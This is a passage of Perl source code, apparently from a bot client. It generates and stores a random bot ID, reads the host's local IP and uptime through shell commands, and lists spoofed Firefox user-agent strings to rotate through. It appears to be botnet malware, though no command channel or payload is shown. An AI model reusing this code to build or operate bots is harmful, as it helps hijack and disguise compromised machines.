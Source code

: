 					my $randhex = `head -c 1 /dev/random`;
					my $str = sprintf("%02lx", ord $randhex);
					$botid .= $str;
				}
			}
			printf FILE $botid;
			close FILE;
		}
		else {
			print "Error working with ".$idfile."\n";
			exit;
		}
	}
} 

sub getLocalIp {
	if ($^O eq "MSWin32"){
		$localip = "127.0.0.1";
		return;
	}
	#$localip = `ifconfig eth0 | grep 'inet addr:' | cut -d':' -f2 | awk '{ print $1}'`; 

	$ifconfig="/sbin/ifconfig";
	@lines = qx|$ifconfig| or die("Can't get info from ifconfig: ".$!);
	foreach(@lines){
		if (/127.0.0.1/){ next;}
        if(/inet addr:([\d.]+)/){
            $localip = $1;
			last;
        }
	}
}

sub getUptime {
	if ($^O eq "MSWin32"){
		return "sometime";
	}
	$up="uptime";
	$result = qx|$up| or die("Can't get info from uptime: ".$!);
	if($result =~ /^(.*) up (.*),\s+(\d+)\s+(.*)/){
		$up = $2;
		return $up;
	}
	return undef;
}

sub getUA {
	my @uaList = (
	"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:6.0a2) Gecko/20110613 Firefox/6.0a2",
	"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:6.0a2) Gecko/20110612 Firefox/6.0a2",
	"Mozilla/5.0 (Windows NT 6.1; rv:6.0) Gecko/20110814 Firefox/6.0",
	"Mozilla/5.0 (Windows NT 5.1; rv:6.0) Gecko/20100101 Firefox/6.0 FirePHP/0.6",
	"Mozilla/5.0 (Windows NT 5.0; WOW64; rv:6.0) Gecko/20100101 Firefox/6.0",
	"Mozilla/5.0 (Windows NT 6.1; U; ru; rv:5.0.1.6) Gecko/20110501 Firefox/5.0.1 Firefox/5.0.1",
	"Mozilla/5.0 (Windows NT 6.2; WOW64; rv:5.0) Gecko/20100101 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:5.0) Gecko/20110619 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:5.0) Gecko/20100101 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 6.1.1; rv:5.0) Gecko/20100101 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 5.2; WOW64; rv:5.0) Gecko/20100101 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 5.1; U; rv:5.0) Gecko/20100101 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 5.1; rv:2.0.1) Gecko/20100101 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 5.0; WOW64; rv:5.0) Gecko/20100101 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 5.0; rv:5.0) Gecko/20100101 Firefox/5.0",
	"Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.2a1pre) Gecko/20110324 Firefox/4.2a1pre",
	"Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.2a1pre) Gecko/20110323 Firefox/4.2a1pre",